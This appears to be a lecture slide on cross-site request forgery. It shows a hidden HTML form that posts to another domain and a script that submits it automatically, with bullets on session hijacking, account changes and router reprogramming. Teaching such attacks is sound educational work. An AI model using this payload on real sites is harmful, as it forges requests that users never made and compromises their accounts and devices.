

# Sending a Cross-Domain POST

<form method="POST" action="http://othersite.com/file.cgi" encoding="text/plain">
<input type="hidden" name=“Hello world!\n\n2¥+2¥" value=“4¥">
</form>

<script>document.forms[0].submit()</script>

Hidden iframe can do this in the background
User visits a malicious page, browser submits
form on behalf of the user
Hijack any ongoing session
Netflix: change account settings, Gmail: steal contacts
Reprogram the user’s home router
Many other attacks possible

submit post
slide 9